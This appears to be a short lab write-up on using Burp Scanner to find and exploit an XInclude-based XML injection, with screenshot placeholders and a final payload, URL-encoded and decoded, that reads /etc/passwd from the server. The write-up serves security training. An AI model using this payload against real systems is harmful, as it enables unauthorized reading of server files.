 # Discovering vulnerabilities quickly with targeted scanning
# Objective
This lab contains a vulnerability that enables you to read arbitrary files from the server. To solve the lab, retrieve the contents of `/etc/passwd` within 10 minutes.

Due to the tight time limit, we recommend using Burp Scanner to help you. You can obviously scan the entire site to identify the vulnerability, but this might not leave you enough time to solve the lab. Instead, use your intuition to identify endpoints that are likely to be vulnerable, then try running a targeted scan on a specific request. Once Burp Scanner has identified an attack vector, you can use your own expertise to find a way to exploit it. 

# Solution
## Analysis
|![](Images/image.png)|
|:--:| 
| *Active scan results* |
| *Detectioin of XMS injection* |

## Exploitation

|![](Images/image-1.png)|
|:--:| 
| *Exploitation of XML injection* |
![alt text](image.png)

Final payload:
```
Encoded: %3cczl%20xmlns%3axi%3d%22http%3a%2f%2fwww.w3.org%2f2001%2fXInclude%22%3e%3cxi%3ainclude%20parse%3d%22text%22%20href%3d%22file%3a%2f%2f%2fetc%2fpasswd%22%2f%3e%3c%2fczl%3e
Decoded: <czl xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></czl>
```
